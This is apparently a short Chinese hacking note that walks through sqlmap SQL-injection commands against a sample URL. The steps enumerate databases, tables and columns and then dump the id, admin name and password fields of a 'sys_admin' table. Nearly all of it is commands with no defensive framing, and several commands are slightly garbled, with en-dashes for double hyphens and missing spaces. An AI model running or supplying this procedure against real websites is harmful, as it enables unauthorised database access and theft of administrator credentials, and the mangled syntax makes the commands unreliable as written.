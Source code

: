 ```yaml
---
title: mysql sqlmap 注入
categories: [mysql]
date: 2015-11-19 20:06:42
---
```


```
假设注入点为 http://www.abc.com/news.php?id=12
//探测数据库信息
sqlmap -u http://www.abc.com/news.php?id=12 –dbs
>db_a
>db_b
// 选择一个数据库 猜解表名
sqlmap -u http://www.abc.com/news.php?id=12 -D db_b–tables
// 猜解表结构
sqlmap -u http://www.abc.com/news.php?id=12 -D db_b-T sys_admin –columns 
// 猜解表内容
sqlmap -u http://www.abc.com/news.php?id=12 -D db_b -T sys_admin -C id,admin_name,pwd –dump

```

内容来自<a href="http://www.myhacklife.com/%E5%AF%B9%E4%BA%8Emysql%E6%95%B0%E6%8D%AE%E5%BA%93%E7%B1%BB%E5%9E%8B%E7%BD%91%E7%AB%99%E7%9A%84%E4%B8%80%E6%AC%A1%E6%B3%A8%E5%85%A5" target="_blank">Myhacklife</a>

